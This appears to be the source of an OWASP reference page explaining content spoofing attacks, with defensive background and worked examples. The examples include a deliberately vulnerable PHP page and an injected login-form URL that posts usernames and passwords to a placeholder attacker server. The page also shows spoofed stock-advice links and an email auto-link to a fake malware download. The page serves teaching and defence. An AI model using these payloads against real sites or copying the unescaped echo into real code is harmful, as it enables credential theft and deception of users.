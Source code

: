 ```yaml
---
layout: col-sidebar
title: Content Spoofing
author: Andrew Smith
contributors: Jmanico, Wichers, D0ubl3 h3lix, Rishu Ranjan, ADubhlaoich, Arnout Engelen, Michal Biesiada
permalink: /attacks/Content_Spoofing
tags: attack, Content Spoofing

---
```


{% include writers.html %}

## Description

Content spoofing, also referred to as _content injection_, "arbitrary
text injection" or _virtual defacement_, is an attack targeting a user
made possible by an injection vulnerability in a web application. When
an application does not properly handle user-supplied data, an attacker
can supply content to a web application, typically via a parameter
value, that is reflected back to the user. This presents the user with a
modified page under the context of the trusted domain.
This attack is typically used as, or in conjunction with, social
engineering because the attack is exploiting a code-based vulnerability
and a user's trust.

The impact of a content spoofing attack strongly depends on the context:
user-supplied information that is reflected in a way that is correctly
escaped and clearly visually marked, such as in error messages, may be
harmless. On the other hand, input that is not clearly visually
distinguised from the 'valid' content may be used in social engineering
attacks, and when the input is not correctly escaped it may even
contain 'active' components, allowing attacks similar to
[Cross-site Scripting (XSS)](/xss).

> Attack Type: Client-Side

## Risk Factors

Content spoofing attacks can be relatively easy to detect in vulnerable
applications. To successfully execute an attack based on content
spoofing, the attacker also needs to trick the victim into clicking
a malicious link, for example via targeted communication or by doing SEO
injection in a way that search engines crawl and index crafted URLs
with falsified messages.

## Audit Guideline

Text injection can be easily found if user input (either via parameters
or directly in the URL) is reflected in the page response.

## Applicable Industries

- A business entity selling one type of product as a major business function

For example, Taxi hailing business, Online shopping business, Online service business

- A business entity relying on the brand name

For example, Cosmetic brand, Airline brand

## [Threat Agents](Threat_Agents "wikilink")

- Malicious competitors
- Disgruntled employees
- Unsatisfied customers
- Scammers

## Content Spoofing vs. Cross-site Scripting

Content spoofing is an attack that is closely related to [Cross-site Scripting (XSS)](/xss). While XSS
uses `<script>` and other techniques to run JavaScript, content spoofing uses other techniques to modify the page for malicious reasons.

Even if XSS mitigation techniques are used within the web application,
such as proper output encoding, the application can still be vulnerable
to text based content spoofing attacks.

## Examples

### Hypertext Markup Language (HTML) Injection

A possible attack scenario is demonstrated below. For this scenario,
let's assume no output encoding is being implemented:

1. Attacker discovers injection vulnerability and decides to spoof a login form
2. Attacker crafts malicious link, including their injected HTML content, and sends it to a user via email
3. The user visits the page due to the page being located within a trusted domain
4. The attacker's injected HTML is rendered and presented to the user asking for a username and password
5. The user enters a username and password, which are both sent to the attackers server

- A simple PHP page containing an injection vulnerability via the `name` parameter:

```php
<?php
    $name = $_REQUEST ['name'];
?>
<html>
    <h1>Welcome to the Internet!</h1>
    <br>
    <body>
        Hello, <?php echo $name; ?>!
        <p>We are so glad you are here!</p>
    </body>
</html>
```

The page functionality can be tested by making the following GET request
to the page: `http://127.0.0.1/vulnerable.php?name=test`

By requesting the link below, the page renders the injected HTML,
presents a login form, and comments out the rest of the page after the
injection point. Once a user enters their username and password, the
values are sent to a page named `login.php` on the attacker's server via
POST.

```
http://127.0.0.1/vulnerable.php?name=<h3>Please Enter Your Username and Password to Proceed:</h3><form method="POST"
action="http://attackerserver/login.php">Username: <input type="text" name="username" /><br />Password: <input type="password"
name="password" /><br /><input type="submit" value="Login" /></form><!--
```

### Text Injection

Another example of a content spoofing attack would be to present false
information to a user via text manipulation. An attack scenario is
demonstrated below. For this scenario, lets assume proper output
encoding HAS been implemented and XSS is not possible:

1. An attacker identifies a web application that gives recommendations to its users on whether they should buy or sell a particular stock
2. The attacker identifies a vulnerable parameter
3. The attacker crafts a malicious link by slightly modifying a valid request
4. The link containing the modified request is sent to a user and they clicks the link
5. A valid webpage is created using the attackers malicious recommendation and the user believes the recommendation was from the stock website

**Valid Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Recommend+You+Buy+Now`

**Modified Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Really+Recommend+You+Sell+This+Stock+Now`

Other example:

**Modified Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=Our+site+has+experienced+major+hacking+incident.Please+use+our+competitor+site+http://www.competitor.com+until+we+further+announced+for+update.`

### Email Spoofing via User Input Injection / Content Spoofing via Auto-Linking

In addition to traditional text injection within user interfaces, attackers can exploit user-controlled input fields that are incorporated verbatim into automated emails. Certain email clients (e.g.: Gmail) automatically detect domain-like text or URLs and convert them into clickable links - a process known as auto-linking.

This can result in content spoofing or email spoofing, even if the application properly escapes HTML. For example, an attacker may supply a value such as `www.evilsiteexample.com/gift.exe` in a field like "Full name" or "Project name". The application sends a legitimate email from its own domain (e.g.: `hello@realnameorg.org`), and the recipient sees a clickable link pointing to an attacker-controlled host.

The impact is significant: users may receive what appear to be official invitations or notifications, but links lead to phishing or malware delivery sites. Because the email originates from a trusted domain, the likelihood of user interaction is higher than with typical phishing attempts.

**Valid Email Content**

`You've been invited to PROJECT` (displayed as plain text - e.g. "You've been invited to Contoso Project")

`FULLNAME has invited you to (...)` (displayed as plain text - e.g. "Contoso has invited you to ...")

**Modified Email Content**

`You've been invited to www.evilsiteexample.com` (rendered as clickable link - blue color typically)

`Download www.evilsiteexample.com/gift.exe - Congratulations!! has invited you to (...)` (rendered as clickable link - blue color typically)

## Related [Controls](https://owasp.org/www-community/controls/)

- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## References

- [CAPEC - 148](http://capec.mitre.org/data/definitions/148.html)
- [WASC - Content Spoofing](http://projects.webappsec.org/w/page/13246917/Content%20Spoofing)
- [Content Injection Attack](http://itlaw.wikia.com/wiki/Content_injection_attack)
- [CERT Advisory on Malicious HTML Tags](http://www.cert.org/advisories/CA-2000-02.html)
- OWASP's [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [HTML Code Injection and Cross-site Scripting](http://www.technicalinfo.net/papers/CSS.html)

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
